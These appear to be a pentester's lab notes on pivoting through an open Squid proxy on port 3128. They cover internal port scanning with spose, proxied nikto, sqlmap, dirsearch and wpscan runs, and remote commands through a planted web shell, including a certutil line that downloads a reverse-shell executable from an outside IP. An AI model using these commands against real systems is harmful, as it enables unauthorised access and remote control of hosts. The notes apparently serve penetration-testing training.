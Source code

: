 #### Spose
```bash - kali
git clone https://github.com/aancw/spose.git && cd spose
```
```bash - kali
python3 spose.py --proxy http://$TARGET:3128 --target 127.0.0.1
```
![[Pasted image 20220610140446.png]]
#### Foxy Proxy
![[Pasted image 20220610133805.png]]
Once foxy proxy is set up, we now try visiting one of the ports found by spose:
http://127.0.0.1:3306
http://127.0.0.1:8080
Visiting 8080, we see a link for /phpmyadmin
[[phpmyadmin]]
```bash - kali
curl --proxy $TARGET:3128 "http://127.0.0.1:8080/shelly.php?cmd=whoami"
```
[[1._Reverse Shells (WIN)#Stageless Payloads]]
[[1._rlwrap]]
[[Python#Server]]
[[4._File Transfers]]
```
curl --proxy $TARGET:3128  "http://127.0.0.1:8080/shelly.php?cmd=certutil%20-urlcache%20-split%20-f%20http%3A%2F%2F192.168.49.57%2Freverse64.exe"
```
#### Nikto
```bash - kali
nikto -h $TARGET -useproxy http://$TARGET:3128
```
#### Uniscan
#### dirsearch
```bash - kali
dirsearch -u http://$TARGET --proxy=$TARGET:3128
```
#### sqlmap
```bash - kali
sqlmap -u http://$TARGET/sqli/Less-1/?id=1 --dbs --proxy http://$TARGET:3128
```
#### Wordpress wpscan
```bash - kali
wpscan -e ap,at,tt,cb,dbe,u,m --detection-mode aggressive --plugins-detection aggressive -t 30 --url http://$TARGET --proxy http://$TARGET
```